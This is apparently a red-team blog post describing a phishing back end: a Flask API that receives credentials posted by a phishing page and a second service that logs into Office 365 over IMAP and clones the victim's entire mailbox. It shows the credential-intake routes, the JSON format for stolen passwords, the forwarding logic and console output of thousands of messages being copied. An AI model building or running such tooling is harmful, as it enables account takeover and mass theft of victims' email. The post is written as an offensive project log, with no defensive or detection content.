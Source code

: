 ```yaml
---
layout: post
title:  "SIEM for red team - IMAP O365 instant clone via flask REST API"
date:   2019-01-23 21:32:00 +0000
categories: phishing siem redteam imap flask rest api
---
```

# REST instant clone O365
From the previous post, I've said I'd use the following resources/services for this project:
* CloudFront from AWS
* Instances from digital ocean or AWS.
* Python3 scripts to deal with all rest API's
* ~~OfflineIMAP module for python~~
    * We'll use pure imaplib instead.
* MySQL to store history of traffic and events
* Prelude SIEM - To be reviewed later
* Gophish or FiercePhish

The progresses have been pushed to github but I'll detail here what I've done so far.

## Python3 scripts to deal with all rest API calls
I've created 3 python scripts
* servimap
* imapCloner
* processimap


### servimap
The servimap is the border REST API based in flask. We have two routes defined on the file.

The root:
```python
@app.route('/')
```
and the framework:
```python
@app.route('/test',methods=['POST'])
```
The methods allowed are just POST to post the stolen credentials.
### Route /test
The credentials is stolen, the web page will post json in this format:
```json
{
  "client": "The client vendor",
  "email": "user@email.address",
  "pass": "stolen password"
}
```
Example:
```json
{
  "client": "O365",
  "email": "bzeroedbrain@ret.re",
  "pass": "JustAnE@amPl3Pa$$"
}
```
Depending what client is the program will take a different path.
The path will be called a different rest api running in another server as explained in the previous post on architecture.
```python
content = request.get_json(silent=True)
c=content['client']
if(c=="O365"):
    #call O365
    requests.post("http://localhost:5010/imapO365",json=content)
elif(c=="Google"):
    #call google
    requests.post("http://localhost:5010/imapGoogle",json=content)
elif(c=="Other"):
    #call other, try to guess
    requests.post("http://localhost:5010/imapTry",json=content)
```
The remove server will be the imapCloner
### imapCloner
The imapCloner contains some routes to process the mailbox clone via IMAP.
A problem I found was google marks these connections as suspicious and OAUTH2 is the method that is supported and more secure to connect. But Microsoft Office 365 accepts these connections with no problems.

```python
#IMAP of Office 365 route
#TODO: Support THREADS. Need to return 302 or 403 to the client and continue the process on server side.
@app.route('/imapO365',methods=['POST'])
```
### processimap
This script is is just two basic functions to clone the mailbox using imaplib:
```python
def process_imap_folders(M,dir):
    #iterates the imap folders. we want dem all!
```
```python
def process_mailbox(M,dir):
    #clone copy all e-mail of that dir on mailbox M to a local dir
```
So when the /test is posted with the json, it will post to corresponding client on imapCloner.
The testclient will just receive, at the moment, "OK":
```console
➜  api-imap git:(develop) ✗ python3 testclient.py
OK
➜  api-imap git:(develop) ✗ python3 testclient.py
OK
```
The servimap will just detect this as example:
```console
➜  api-imap git:(develop) ✗ python3 servimap.py
 * Serving Flask app "servimap" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 271-507-179
127.0.0.1 - - [21/Jan/2019 00:14:03] "POST /test HTTP/1.1" 200 -
127.0.0.1 - - [21/Jan/2019 00:15:29] "POST /test HTTP/1.1" 200 -
127.0.0.1 - - [21/Jan/2019 00:18:48] "POST /test HTTP/1.1" 200 -
127.0.0.1 - - [21/Jan/2019 00:43:02] "POST /test HTTP/1.1" 200 -
127.0.0.1 - - [21/Jan/2019 00:48:55] "POST /test HTTP/1.1" 200 -
127.0.0.1 - - [21/Jan/2019 00:50:52] "POST /test HTTP/1.1" 200 -
```
And the cloner will start right away to clone the mailbox:
```console
➜  api-imap git:(develop) ✗ /usr/local/bin/python3 /Users/pushdword/ret.re/siem-rt/api-imap/imapCloner.py
 * Serving Flask app "imapCloner" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on http://127.0.0.1:5010/ (Press CTRL+C to quit)
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 271-507-179
 IMAP O365 TRIGGERED
OK
DATA:
[b'0']
OK
DATA:
[b'0']
OK
DATA:
[b'0']
OK
DATA:
[b'18971']
Writing message b'1'
Writing message b'2'
Writing message b'3'
Writing message b'4'
Writing message b'5'
(...)
```
An office 365 account was used in this test case. We'll need to fine tune this and put perhaps on the cloud :)